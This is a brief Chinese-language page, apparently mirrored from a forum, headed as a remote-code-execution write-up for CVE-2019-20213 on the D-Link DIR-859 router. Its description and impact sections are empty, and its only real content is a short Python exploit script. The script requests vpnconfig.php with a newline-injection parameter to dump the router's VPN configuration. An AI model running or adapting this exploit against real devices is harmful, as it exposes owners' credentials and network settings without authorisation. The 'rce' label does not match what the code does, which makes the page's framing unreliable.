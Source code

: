 # （CVE-2019–20213）D-Link DIR-859 rce

> 原文：[https://www.zhihuifly.com/t/topic/3388](https://www.zhihuifly.com/t/topic/3388)

# （CVE-2019–20213）D-Link DIR-859 rce

## 一、漏洞简介

## 二、漏洞影响

![image](img/6ae54a68f5d1743c2a05ad37071369a2.png)

## 三、复现过程

```
import requests
# Miguel Mendez Z.
FILES = ["vpnconfig.php"]
IP = "192.168.0.1"
PORT = "80"
headers = {'content-type': 'application/x-www-form-urlencoded'}
print "\n-----------VPN-------------\n"
url_vpn = 'http://{ip}:{port}/{file1}?pwnd=%0a'.format(ip=IP, port=PORT, file1=FILES[0])
print(requests.get(url_vpn).text) 
```